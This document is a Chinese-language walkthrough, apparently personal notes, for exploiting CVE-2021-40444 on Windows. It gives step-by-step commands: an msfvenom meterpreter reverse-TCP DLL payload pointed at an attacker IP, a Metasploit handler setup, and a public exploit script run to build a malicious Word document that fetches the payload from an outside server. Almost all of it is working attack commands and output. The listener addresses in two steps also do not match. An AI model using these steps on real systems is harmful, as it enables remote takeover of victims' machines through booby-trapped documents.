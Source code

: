 <img src=".\图片\Snipaste_2023-01-05_12-23-08.png" alt="Snipaste_2023-01-05_12-23-08" style="zoom:60%;" />

#### CVE-2021-40444

https://github.com/lockedbyte/CVE-2021-40444

影响：Windows 7/8/8.1/10,Windows Server 2008/2008R2/2012/2012R2/2016/2019/2022 等各个主流版本

这个是针对 **windows 操作系统**的

##### 步骤

###### 1、安装依赖

```
apt-get install lcab
```

###### 2、生成 DLL

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.178.10.6 lport=9999 -f dll > shell.dll
```

###### 3、监听上线

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 9999
run
```

###### 4、生成文档

```
cp shell.dll CVE-2021-40444-master  
cd CVE-2021-40444-master
python3 exploit.py generate shell.dll http://192.168.10.6:10000
```

```
┌──(root💀kali)-[~/Desktop/CVE-2021-40444-master/out]
└─# ls
0-blank  document.docx
```
